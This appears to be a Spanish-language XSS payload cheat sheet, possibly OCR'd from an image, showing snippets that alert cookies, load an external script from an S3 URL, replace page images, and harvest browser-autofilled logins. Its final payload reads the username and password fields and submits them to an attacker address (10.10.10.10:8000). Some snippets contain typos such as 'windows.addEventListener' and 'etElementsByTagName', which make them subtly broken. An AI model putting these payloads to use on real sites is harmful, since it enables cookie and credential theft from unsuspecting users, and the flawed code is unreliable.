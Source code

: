 contenido del script:

```javascript
windows.addEventListener("load",()=>{
	alert(document.cookie);
});
```

### INCLUDE EXTERNAL JS USING JS

```html
<script>
	let script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "http://demofilespa.s3.amazonaws.com/jfptest.js";
    document.getElementsByTagName("head")[0].appendChild(script);
</script>
```

o lo agregamos al body:

```html
<script>
	let script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "http://demofilespa.s3.amazonaws.com/jfptest.js";
    document.body.appendChild(script);
</script>
```

### REPLACE IMAGE

```html
<script>
	let image = document.etElementsByTagName("img")[0];
	image.src="lo que queramos"
</script>
```


### STEALING DATA FROM AUTO-COMPLETE

intente ingresar una combinación aleatoria de nombre de usuario: contraseña y haga clic en iniciar sesión. Cuando el navegador le pregunte si desea guardar la contraseña o no, haga clic en recordar contraseña. Entonces, lo que sucede es que la próxima vez que visitemos la página, el navegador completará automáticamente los campos de nombre de usuario: contraseña para nosotros.

Si las credenciales estan almacenadas en el navegador (guardadas ahi) es probable que al ingresar a la pagina se auto complete los campos de login, en un XSS almacenado si creamos un script que envie esos datos automaticamente es posible obtener credenciales:

```html
<script>
	let username = document.forms[0].elements[0].value;
	let password = document.forms[0].elements[1].value;
    window.setTimeout(() => {
		//cambiamos el action del form y lo enviamos
    	document.forms[0].action = "http://10.10.10.10:8000/?username="+username+"&password="+password;
    	document.forms[0].submit();
    }, 10000); //cada 10 segundos
</script>
```
